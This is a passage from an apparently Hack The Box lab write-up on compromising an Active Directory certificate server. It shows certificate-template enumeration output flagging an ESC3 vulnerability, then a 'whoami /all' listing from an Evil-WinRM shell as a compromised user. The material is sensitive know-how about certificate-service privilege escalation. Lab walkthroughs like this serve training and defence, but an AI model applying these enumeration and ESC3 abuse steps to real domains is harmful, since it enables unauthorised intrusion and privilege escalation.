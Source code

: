         Enrollment Flag                     : AutoEnrollment
                                              PublishToDs
                                              IncludeSymmetricAlgorithms
        Private Key Flag                    : ExportableKey
        Extended Key Usage                  : Certificate Request Agent
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 1 year
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
          Enrollment Permissions
            Enrollment Rights               : CERTIFICATE.HTB\Domain CRA Managers
                                              CERTIFICATE.HTB\Domain Admins
                                              CERTIFICATE.HTB\Enterprise Admins
          Object Control Permissions
            Owner                           : CERTIFICATE.HTB\Administrator
            Write Owner Principals          : CERTIFICATE.HTB\Domain Admins
                                              CERTIFICATE.HTB\Enterprise Admins
                                              CERTIFICATE.HTB\Administrator
            Write Dacl Principals           : CERTIFICATE.HTB\Domain Admins
                                              CERTIFICATE.HTB\Enterprise Admins
                                              CERTIFICATE.HTB\Administrator
            Write Property Principals       : CERTIFICATE.HTB\Domain Admins
                                              CERTIFICATE.HTB\Enterprise Admins
                                              CERTIFICATE.HTB\Administrator
        [!] Vulnerabilities
          ESC3                              : 'CERTIFICATE.HTB\\Domain CRA Managers' can enroll and template has Certificate Request Agent EKU set


Here we've figured out not everything is about AD. Sometimes things are just about local account permissions. Enumerating through each user on the machine we can finally see our destination, away from the rabbit holes we were given.

```sh
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> whoami /all

USER INFORMATION
----------------

User Name          SID
================== =============================================
certificate\ryan.k S-1-5-21-515537669-4223687196-3249690583-1117


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
```